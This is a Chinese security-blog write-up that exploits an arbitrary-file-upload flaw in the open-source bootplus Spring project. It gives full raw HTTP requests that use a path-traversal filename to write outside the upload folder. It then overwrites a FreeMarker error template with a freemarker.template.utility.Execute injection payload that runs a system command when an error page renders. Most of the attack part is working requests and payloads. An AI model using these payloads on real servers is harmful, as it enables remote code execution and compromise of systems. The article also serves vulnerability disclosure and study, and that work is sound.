





# Spring 框架文件上传getshell思路扩展-先知社区

> **来源**: https://xz.aliyun.com/news/17193  
> **文章ID**: 17193

---

# Spring 框架文件上传getshell思路扩展

## 前言

**文章中涉及的敏感信息均已做打码处理，文章仅做经验分享用途，切勿当真，未授权的攻击属于非法行为！文章中敏感信息均已做多层打码处理。传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任，一旦造成后果请自行承担**

前几天不是审计了一波 bootplus，在<https://github.com/JoeyBling/bootplus/issues/24发现可以任意文件上传>

## 前台任意文件上传

看到我们的接口代码

```
@ResponseBody
@RequestMapping(value = "/upload", method = RequestMethod.POST)
public R upload(Integer uploadType, HttpServletRequest request) throws Exception {
    MultipartHttpServletRequest multipartRequest;
    // 判断request是否有文件上传
    if (ServletFileUpload.isMultipartContent(request)) {
        multipartRequest = (MultipartHttpServletRequest) request;
    } else {
        return R.error("请先选择上传的文件");
    }
    // 存入数据库的相对路径
    String fileContextPath = null;
    Iterator<String> ite = multipartRequest.getFileNames();
    while (ite.hasNext()) {
        MultipartFile file = multipartRequest.getFile(ite.next());
        // 判断上传的文件是否为空
        if (file == null) {
            return R.error("上传文件为空");
        }
        // request.getServletContext().getRealPath(uploadPath)
        // 如果打成了jar包，Linux路径会变成/tmp/tomcat-docbase.*.*/
        String fileName = file.getOriginalFilename();
        logger.info("上传的文件原名称:{}", fileName);
        // 上传文件类型
        String fileType = fileName.indexOf(".") != -1
                ? fileName.substring(fileName.lastIndexOf(".") + 1) : null;

        logger.info("上传文件类型:{}", StringUtils.defaultString(fileType));
        // 自定义的文件名称
        String trueFileName = getTrueFileName(fileName, uploadType);
        // 防止火狐等浏览器不显示图片
        fileContextPath = FileUtils.generateFileUrl(
                MyWebAppConfigurer.FILE_UPLOAD_PATH_EXT, trueFileName);
        // 上传文件保存的路径
        String uploadPath = FileUtils.generateFileUrl(
                applicationProperties.getFileConfig().getUploadPath(), trueFileName);
        logger.debug("存放文件的路径:{}", uploadPath);
        // 上传文件后的保存路径
        File fileUpload = FileUtils.getFile(uploadPath);

        // 创建父级目录(Linux需要注意启动用户的权限问题)
        FileUtils.forceMkdirParent(fileUpload);

        file.transferTo(fileUpload);
        // 进行文件处理
        fileHandle(fileUpload);
        // 这里暂时只能上传一个文件
        break;
    }
    return R.ok().put("filePath", fileContextPath);
}
```

随便上传一个文件，抓一个包看看

我们还是使用

```
<!DOCTYPE html>
<html lang="zh">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>文件上传</title>
    <style>
        body {
            font-family: Arial, sans-serif;
            margin: 20px;
            text-align: center;
        }
        #uploadForm {
            margin-top: 20px;
        }
        #response {
            margin-top: 20px;
            color: green;
        }
    </style>
</head>
<body>
    <h2>上传文件到服务器</h2>
    <form id="uploadForm">
        <input type="file" id="fileInput" required>
        <button type="submit">上传文件</button>
    </form>
    <p id="response"></p>
    <script>
        document.getElementById("uploadForm").addEventListener("submit", function(event) {
            event.preventDefault(); // 阻止默认提交行为

            const fileInput = document.getElementById("fileInput");
            if (!fileInput.files.length) {
                alert("请选择一个文件！");
                return;
            }

            const formData = new FormData();
            formData.append("file", fileInput.files[0]);

            fetch("http://127.0.0.1:7878/file/upload", {
                method: "POST",
                body: formData
            })
            .then(response => response.json())
            .then(data => {
                document.getElementById("response").textContent = "上传成功: " + JSON.stringify(data);
            })
            .catch(error => {
                document.getElementById("response").textContent = "上传失败: " + error;
                document.getElementById("response").style.color = "red";
            });
        });
    </script>
</body>
</html>
```

```
POST /file/upload HTTP/1.1
Host: 127.0.0.1:7878
Content-Length: 218
sec-ch-ua: "Chromium";v="125", "Not.A/Brand";v="24"
sec-ch-ua-platform: "Windows"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.112 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryNRCAxJ6FTDUcBwrC
Accept: */*
Origin: null
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive

------WebKitFormBoundaryNRCAxJ6FTDUcBwrC
Content-Disposition: form-data; name="file"; filename="1.txt"
Content-Type: application/octet-stream

aaaaa
------WebKitFormBoundaryNRCAxJ6FTDUcBwrC--
```



可以看到了路径

尝试一下目录穿越

```
POST /file/upload HTTP/1.1
Host: 127.0.0.1:7878
Content-Length: 218
sec-ch-ua: "Chromium";v="125", "Not.A/Brand";v="24"
sec-ch-ua-platform: "Windows"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.112 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryNRCAxJ6FTDUcBwrC
Accept: */*
Origin: null
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive

------WebKitFormBoundaryNRCAxJ6FTDUcBwrC
Content-Disposition: form-data; name="file"; filename="../../../1.txt"
Content-Type: application/octet-stream

aaaaa
------WebKitFormBoundaryNRCAxJ6FTDUcBwrC--
```

可以看到成功穿越了，没有禁用我们的../  



成功上传了

但是我们知道 spring 的项目是不能解析 jsp 的，那如何 getshell 呢

## 覆盖模板文件

我们观察依赖



有我们的模板，大看一下文件有没有模板



太好啦，可以看见是有模板的

那其实就可以考虑覆盖我们的模板文件

这里需要涉及几个基础的语法

FreeMarker 变量

在 FreeMarker 中，变量使用 ${} 语法来引用

相当于放入我们的表达式的格式

建对象 (?new)

FreeMarker 可以使用 ?new 关键字实例化某些 Java 类

默认情况下，FreeMarker 不能直接访问 Java 类，但某些情况下可以使用 ?new 访问系统类

在 FreeMarker 中，freemarker.template.utility.Execute 类允许执行系统命令

我们以弹计算器为例子

```
${"freemarker.template.utility.Execute"?new()("calc")}
```

所以我们可以覆盖原模板

payload 如下

```
POST /file/upload HTTP/1.1
Host: 127.0.0.1:7878
Content-Length: 256
sec-ch-ua: "Chromium";v="125", "Not.A/Brand";v="24"
sec-ch-ua-platform: "Windows"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.112 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryNRCAxJ6FTDUcBwrC
Accept: */*
Origin: null
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive

------WebKitFormBoundaryNRCAxJ6FTDUcBwrC
Content-Disposition: form-data; name="file"; filename="/../../../../bootplus-master\src\main\resources\templates\error.ftl"
Content-Type: application/octet-stream

${"freemarker.template.utility.Execute"?new()("calc")}
------WebKitFormBoundaryNRCAxJ6FTDUcBwrC--
```

然后我们需要触发报错的模板

当然只需要访问不存在的路由就好了


